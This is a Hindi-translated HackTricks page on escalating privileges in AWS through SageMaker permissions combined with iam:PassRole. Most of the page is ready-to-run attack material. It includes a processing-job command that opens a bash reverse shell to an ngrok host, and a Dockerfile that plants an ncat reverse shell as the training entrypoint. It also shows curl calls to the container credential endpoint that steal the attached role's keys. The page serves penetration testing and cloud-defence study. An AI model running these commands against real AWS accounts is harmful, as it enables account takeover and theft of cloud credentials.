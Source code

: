 # AWS - Sagemaker विशेषाधिकार उन्नयन

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM रोल के साथ एटैच करने के लिए नोटबुक बनाना शुरू करें:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
उत्तर में एक `NotebookInstanceArn` फ़ील्ड शामिल होगा, जिसमें नए नोटबुक इंस्टेंस का ARN होगा। हम फिर `create-presigned-notebook-instance-url` API का उपयोग कर सकते हैं ताकि हम नोटबुक इंस्टेंस तैयार होने पर उस तक पहुंचने के लिए उपयोग कर सकें:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate करें URL पर और ऊपर दाएं कोने में `Open JupyterLab` पर क्लिक करें, फिर "लॉन्चर" टैब पर स्क्रॉल करें और "अन्य" खंड के नीचे, "टर्मिनल" बटन पर क्लिक करें।

अब IAM Role के मेटाडेटा क्रेडेंशियल तक पहुंचना संभव है।

**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को प्राइवेस्क करना।

## `sagemaker:CreatePresignedNotebookInstanceUrl`

अगर उस पर पहले से ही Jupyter **नोटबुक चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` के साथ सूचीबद्ध कर सकते हैं (या किसी अन्य तरीके से उन्हें खोज सकते हैं)। आप **उनके लिए एक URL उत्पन्न कर सकते हैं, उन्हें एक्सेस कर सकते हैं, और पिछली तकनीक में इंडिकेट किए गए क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** सेजमेकर सेवा भूमिका में उन्नति।

## `sagemaker:CreateProcessingJob,iam:PassRole`

उन अधिकारों के साथ एक हमलावर **सेजमेकर को एक प्रोसेसिंग जॉब का निष्पादन करने** की अनुमति है जिसमें एक सेजमेकर भूमिका संलग्न है। हमलावर को इंडिकेट कर सकता है कि कैसे एक **AWS प्रबंधित ECS खाते के उदाहरण में चलाया जाएगा** और **संलग्न आईएएम भूमिका के क्रेडेंशियल्स चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को उन्नत करना।

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर एक प्रशिक्षण नौकरी बना सकेगा, उस पर **एक विचारात्मक कंटेनर चला** कर एक **भूमिका संलग्न** करेगा। इसलिए, हमलावर को भूमिका के क्रेडेंशियल चुरा लेने की क्षमता होगी।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले से अधिक उत्पीड़न करने के लिए है क्योंकि आपको एक डॉकर छवि उत्पन्न करनी होगी जो हमलावर को सीधे रिव शैल या क्रेडेंशियल को हमलावर को भेजेगी (आप प्रशिक्षण नौकरी के विन्यास में एक प्रारंभिक कमांड नहीं दे सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका को उन्नत करना।

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर (संभावित रूप से) **हाइपरपैरामीटर प्रशिक्षण नौकरी** बना सकता है, उस पर **किसी भी आरबिट्रेरी कंटेनर को चला सकता है** जिसमें एक **भूमिका संलग्न** है।\
_मैंने समय की कमी के कारण उत्पीड़न नहीं किया है, लेकिन पिछले उत्पीड़नों के समान दिखता है, उत्पीड़न विवरण के साथ पीआर भेजने के लिए स्वतंत्र महसूस करें।_

# संदर्भ
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) से या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड गिटहब रेपो में पीआर जमा करके।

</details>
